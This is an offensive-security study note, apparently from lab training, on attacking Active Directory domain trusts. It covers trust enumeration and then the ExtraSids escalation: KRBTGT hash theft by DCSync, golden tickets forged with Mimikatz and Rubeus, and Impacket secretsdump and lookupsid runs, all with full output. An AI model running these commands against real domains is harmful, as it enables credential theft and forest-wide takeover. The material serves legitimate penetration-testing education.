

# AD Domain Trust Attacks

## Primer

### Domain Trusts Overview

A trust is used to establish forest-forest or domain-domain authentication, which allows users to access resources in another domain, outside of the main domain where their account resides. A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way communication. An organization can create various types of trusts:

- **Parent-Child**: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain corp.inlanefreight.local could authenticate into the parent domain inlanefreight.local, and vice-versa.
- **Cross-link**: A trust between child domains to speed up authentication.
- **External**: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. This type of trust utilizes SID filtering or filters out authentication requests (_by SID_) not from the trusted domain.
- **Tree-root**: A two-way transitive trust between a forest root domain and a new tree root domain. They are creted by design when you set up a new tree root domain within a forest.
- **Forest**: A transitive trust between two forest root domains.
- **ESAE**: A bastion forest used to manage AD.

When establishing a trust, certain elements can be modified depending on the business case.

Trusts can be transitive or non-transitive.

- A **transitive** trust means that trust is extended to objects that the child domain trusts. For example, say you have three domains. In a transitive relationship, if Domain A has a trust with Domain B, and Domain B has a transitive trust with Domain C, then Domain A will automatically trust Domain C.
- In a **non-transitive** trust, the child domain itself is the only one trusted.

Trusts can be set up in two directions: one-way or two-way.

- **One-way trust**: Users in a trusted domain can access resources in a trusting domain, not vice-versa.
- **Bidirectional trust**: Users from both trusting domains can access resources in the other domain. For example, in a bidirectional trust between INLANEFREIGHT.LOCAL and FREIGHTLOGISTICS.LOCAL, users in INLANEFREIGHT.LOCAL would be able to access resources in FREIGHTLOGISTICS.LOCAL, and vice-versa.

Domain trusts are often set up incorrectly and can provide you with critical unintended attack paths. Also, trusts set up for ease of use may not be reviewed later for potential security implications if security is not considered before establishing the trust relationship. A Merger & Acquisition between two companies can result in bidirectional trusts with acquired companies, which can unknowingly introduce risk into the acquiring company's environment if the security posture of the acquired company is unknown und untested. If someone wanted to target your organization, they could also look at the other company you acquired for a potentially softer target to attack, allowing them to get into your organization indirectly. It is not uncommon to be able to perform an attack such as Kerberoasting against a domain outside the principal domain and obtain a user that has administrative access within the principal domain.

### Enumarating

#### Using Get-ADTrust

You can use the Get-ADTrust cmdlet to enumerate domain trust relationships. This is especially helpful if you are limited to just using built-in tools.

```powershell
PS C:\htb> Import-Module activedirectory
PS C:\htb> Get-ADTrust -Filter *

Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=LOGISTICS.INLANEFREIGHT.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ForestTransitive        : False
IntraForest             : True
IsTreeParent            : False
IsTreeRoot              : False
Name                    : LOGISTICS.INLANEFREIGHT.LOCAL
ObjectClass             : trustedDomain
ObjectGUID              : f48a1169-2e58-42c1-ba32-a6ccb10057ec
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=INLANEFREIGHT,DC=LOCAL
Target                  : LOGISTICS.INLANEFREIGHT.LOCAL
TGTDelegation           : False
TrustAttributes         : 32
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False

Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=FREIGHTLOGISTICS.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : FREIGHTLOGISTICS.LOCAL
ObjectClass             : trustedDomain
ObjectGUID              : 1597717f-89b7-49b8-9cd9-0801d52475ca
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=INLANEFREIGHT,DC=LOCAL
Target                  : FREIGHTLOGISTICS.LOCAL
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

The above output shows that your current domain INLANEFREIGHT.LOCAL has two domain trusts. The first is with LOGISTICS.INLANEFREIGHT.LOCAL, and the IntraForest property shows that this is a child domain, and you are currently positioned in the root domain on the forest. The second trust is with the domain FREIGHTLOGISTICS.LOCAL, and the ForestTransitive property is set to True, which means that this is a forest trust or external trust. You can see that both trusts are set up to be bidirectional, meaning that users can authenticate back and forth across both trusts. This is important to note down during an assessment. If you cannot authenticate across a trust, you cannot perform any enumeration or attacks across the trust.

#### Checking for Existing Trusts using Get-DomainTrust

Aside from using built-in AD tools such as the AD PowerShell module, both PowerView and BloodHound can be utilized to enumerate trust relationships, the type of trusts established, and the authentication flow. After importing PowerView, you can use the Get-DomainTrust function to enumerate what trusts exist, if any.

```powershell
PS C:\htb> Get-DomainTrust 

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : LOGISTICS.INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 6:20:22 PM
WhenChanged     : 2/26/2022 11:55:55 PM

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : FREIGHTLOGISTICS.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 8:07:09 PM
WhenChanged     : 2/27/2022 12:02:39 AM
```

#### Using Get-DomainTrustMapping

PowerView can be used to perform a domain trust mapping and provide information such as the type of trust and the direction of the trust. This information is beneficial once a foothold is obtained, and you plan to compromise the environment further.

```powershell
PS C:\htb> Get-DomainTrustMapping

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : LOGISTICS.INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 6:20:22 PM
WhenChanged     : 2/26/2022 11:55:55 PM

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : FREIGHTLOGISTICS.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 8:07:09 PM
WhenChanged     : 2/27/2022 12:02:39 AM

SourceName      : FREIGHTLOGISTICS.LOCAL
TargetName      : INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 8:07:08 PM
WhenChanged     : 2/27/2022 12:02:41 AM

SourceName      : LOGISTICS.INLANEFREIGHT.LOCAL
TargetName      : INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 6:20:22 PM
WhenChanged     : 2/26/2022 11:55:55 PM
```

#### Checking Users in the Child Domain using Get-DomainUser

From here, you could begin performing enumeration across the trusts. For example, you could look at all users in the child domain:

```powershell
PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

samaccountname
--------------
htb-student_adm
Administrator
Guest
lab_adm
krbtgt
```

#### Using netdom to query Domain Trust

Another tool you can use to get Domain Trust is netdom. The netdom query sub-command of the netdom command-line tool in Windows can retrieve information about the domain, including a list of workstations, servers, and domain trusts.

```
C:\htb> netdom query /domain:inlanefreight.local trust
Direction Trusted\Trusting domain                         Trust type
========= =======================                         ==========

<->       LOGISTICS.INLANEFREIGHT.LOCAL
Direct
 Not found

<->       FREIGHTLOGISTICS.LOCAL
Direct
 Not found

The command completed successfully.
```

#### Using netdom to query DCs

```
C:\htb> netdom query /domain:inlanefreight.local dc
List of domain controllers with accounts in the domain:

ACADEMY-EA-DC01
The command completed successfully.
```

#### Using netdom to query Workstations and Servers

```
C:\htb> netdom query /domain:inlanefreight.local workstation
List of workstations with accounts in the domain:

ACADEMY-EA-MS01
ACADEMY-EA-MX01      ( Workstation or Server )

SQL01      ( Workstation or Server )
ILF-XRG      ( Workstation or Server )
MAINLON      ( Workstation or Server )
CISERVER      ( Workstation or Server )
INDEX-DEV-LON      ( Workstation or Server )
...SNIP...
```

#### Visualizing Trust Relationships in BloodHound

You can also use BloodHound to visualize these trust relationships by using the Map Domain Trusts pre-built query. Here you can easily see that two bidirectional trusts exist.



## Attacking Domain Trusts from Windows

### SID History Primer

The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated into another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

SID history is intended to work across domains, but can work in the same domain. Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.

This token is used to determine what resources the account can access. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos TGT, which will allow for you to authenticate as any account in the domain of your choosing for further persistence.

### ExtraSids Attack - Mimikatz

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the sidHistory property is respected due to a lack of SID Filtering protection. SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the Enterprise Admins group, they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, you are creating a Golden Ticket from the compromised child domain to compromise the parent domain. In this case, you will leverage the SIDHistory to grant an account Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admin group, which will give you full access to the parent domain without actually being part of the group.

To perform this attack after compromising a child domani, you need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain
- With this data collected, the attack can be performed with Mimikatz

Now you can gather each piece of data required to perform the ExtraSids attack. First, you need to obtain the NT hash for the KRBTGT account, which is a service account for the KDC in AD. The account KRBTGT is used to encrypt/sign all Kerberos tickets granted within a given domain. DCs use the account's password to decrypt and validate Kerberos tickets. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in AD environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a pentest assessment where full domain compromise is reached.

#### Obtaining the KRBTGT Account's NT Hash using Mimikatz

Since you have compromised the child domain, you can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

#### Using Get-DomainSID

You can use the PowerView Get-DomainSID function to get the SID for the child domain, but this is also visible in the Mimikatz output above.

```powershell
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup

Next, you can use Get-DomainGroup from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. You could also do this with the Get-ADGroup cmdlet with a command such as ```Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"```.

```powershell
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

#### Using ls to Confirm No Access

Before the attack, you can confirm no access to the file system of the DC in the parent domain.

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

#### Creating a Golden Ticket with Mimikatz

Using Mimikatz and the data listed above, you can create a Golden Ticket to access all resources within the parent domain.

```powershell
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

#### Confirming a Kerberos Ticket is in Memory Using klist

You can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory.

```powershell
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

#### Listing the Entire C: Drive of the DC

From here, it is possible to access any resources within the parent domain, and you could compromise the parent domain in several ways.

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```

### ExtraSids Attack - Rubeus

You can also perform this attack using Rubeus.

#### Using ls to Confirm No Access Before Running Rubeus

First, again you'll confirm that you cannot access the parent domain DC's file system.

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces 
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
	
<SNIP> 
```

#### Creating a Golden Ticket using Rubeus

Next, you will formulate your Rubeus command using the data you retrieved above. The ```/rc4``` flag is the NT hash for the KRBTGT account. The ```/sids``` flag will tell Rubeus to create your Golden Ticket giving you the same rights as members of the Enterprise Admins group in the parent domain.

```powershell
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
      VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
      k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
      g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
      9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
      acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
      X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
      3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
      WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
      Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
      /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
      aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
      OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
      sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
      eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
      sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
      F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
      Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
      JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
      MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!
```

#### Confirming the Ticket is in Memory Using klist

Once again, you can check that the ticket is in memory using the klist.

```powershell
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```

#### Performing a DCSync Attack

Finally, you can test this access by performing a DCSync attack against the parent domain, targeting the lad_adm Domain Admin user.

```powershell
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

When dealing with multiple domains and your target domain is not the same as the user's domain, you will need to specify the exact domain to perform the DCSync operation on the particular DC. The command for this would look like the following:

```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

## Attacking Domain Trusts from Linux

You will still need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

### Performing DCSync with secretsdump.py

Once you have complete control of the child domain, LOGISTICS.INLANEFREIGHT.LOCAL, you can use secretsdump.py to DCSync and grab the NTLM hash for the KRBTGT account.

```bash
d41y@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

### Performing SID Brute Forcing using lookupsid.py

Next, you can use lookupsid.py from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever you specify for the IP address will become the target domain for a SID lookup. The tool will give you back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format DOMAIN_SID-RID. For example, from the output below, you can see that the SID of the lab_adm user would be ```S-1-5-21-2806153819-209893948-922872689-1001```.

```bash
d41y@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

### Looking for the Domain SID

You can filter out the noise by piping the command output to grep and looking for just the domain SID.

```bash
d41y@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

